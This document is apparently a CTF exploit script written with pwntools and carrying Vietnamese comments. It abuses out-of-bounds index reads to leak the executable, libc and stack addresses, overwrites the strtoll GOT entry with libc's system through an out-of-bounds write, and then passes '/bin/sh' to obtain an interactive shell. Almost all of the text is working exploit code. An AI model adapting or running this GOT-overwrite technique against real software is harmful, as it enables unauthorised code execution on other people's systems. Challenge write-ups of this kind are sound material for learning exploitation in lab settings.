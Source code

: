 ```python

#################################
### Stage 1: leak exe address ###
#################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'-6')
p.recvuntil(b'Value: ')
exe_leak = int(p.recvline()[:-1], 10)
exe.address = exe_leak - 0x201f
log.info('Exe leak: ' + hex(exe_leak))
log.info('Exe base: ' + hex(exe.address))

##################################
### Stage 2: leak libc address ###
##################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'-2')
p.recvuntil(b'Value: ')
libc_leak = int(p.recvline()[:-1], 10)
libc.address = libc_leak - 0x264040
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

##################################
### Stage 3: leak stack rsp    ###
##################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'-7')
p.recvuntil(b'Value: ')
stack_leak = int(p.recvline()[:-1], 10)
rsp = stack_leak - 0x320
idx = int(rsp - exe.got['strtoll']) // -8 # (note)
log.info('stack leak: ' + hex(stack_leak))
log.info('rsp leak: ' + hex(rsp))

# NOTE:

# chỗ này hơi khó hiểu nhưng mà mình sẽ diễn đạt đơn giản là như thế:
# điểm xuất phát là rsp , tương đương với index = 0, bây giờ ta cần thay đổi got@strtoll thì ta cần biết cái index trỏ đến nó
# vì vậy ta sẽ tính offset, sau đó đổi offset thành byte, mà mỗi một index thì là 1 stack, 1 stack thì 8byte, nên ta sẽ chia -8 để tính ra index trỏ đến got@stroll

#####################################
### Stage 4: Overwrite got@stroll ###
#####################################

p.sendlineafter(b'?: ', b'W')
p.sendlineafter(b'Index: ', str(idx))
payload = str(libc.sym['system'])
p.sendlineafter(b'Value: ', payload)

######################################
### Stage 5: change rdi to /bin/sh ###
######################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'/bin/sh\0')

p.interactive()
```
